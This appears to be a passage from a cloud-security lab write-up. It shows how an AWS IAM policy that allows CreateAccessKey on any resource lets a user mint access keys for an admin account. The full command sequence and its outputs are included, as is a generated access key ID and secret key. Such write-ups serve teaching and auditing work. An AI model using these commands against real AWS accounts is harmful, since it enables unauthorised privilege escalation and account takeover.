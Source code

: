 Observe the Description and `DefaultVersionId`, we can retrive the policy and check what permission it assigns to the user using the versionId of the policy.\
The Policy allows `CreateAccessKey` action on any(*) resource. Which means we can create access keys for a higher privileges user and use those keys to perform higher privileged actions.

```
❯ aws iam get-policy-version --policy-arn arn:aws:iam::9[REDACTED]2:policy/privesc4-CreateAccessKey --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "iam:CreateAccessKey",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2024-01-21T19:26:51+00:00"
    }
}
```

Let's first collect the basic information about the `adminUser`. We can notice there exists an admin user, we can try to create an access key for the admin user and if we are successfull, we can use that access key to elevate our privileges.

```
❯ aws iam get-user --user adminUser
{
    "User": {
        "Path": "/",
        "UserName": "adminUser",
        "UserId": "AIDA6CT7N4R3E74G2AE72",
        "Arn": "arn:aws:iam::9[REDACTED]2:user/adminUser",
        "CreateDate": "2024-02-16T06:55:00+00:00"
    }
}
```

Now, we will simply create access keys for the admin user. Once the command is successful, we can configure those keys we just created of an admin user in our environment and we can now perform actions as per admin user.

```
❯ aws iam create-access-key --user-name adminUser --profile privesc4
{
    "AccessKey": {
        "UserName": "adminUser",
        "AccessKeyId": "AKIA6CT7N4R3HTU5HCUJ",
        "Status": "Active",
        "SecretAccessKey": "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",
        "CreateDate": "2024-02-16T07:03:04+00:00"
    }
}

❯ aws configure --profile adminUser
AWS Access Key ID [None]: AKIA6CT7N4R3HTU5HCUJ
AWS Secret Access Key [None]: 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
Default region name [None]:
Default output format [None]:

❯ aws sts get-caller-identity --profile adminUser
```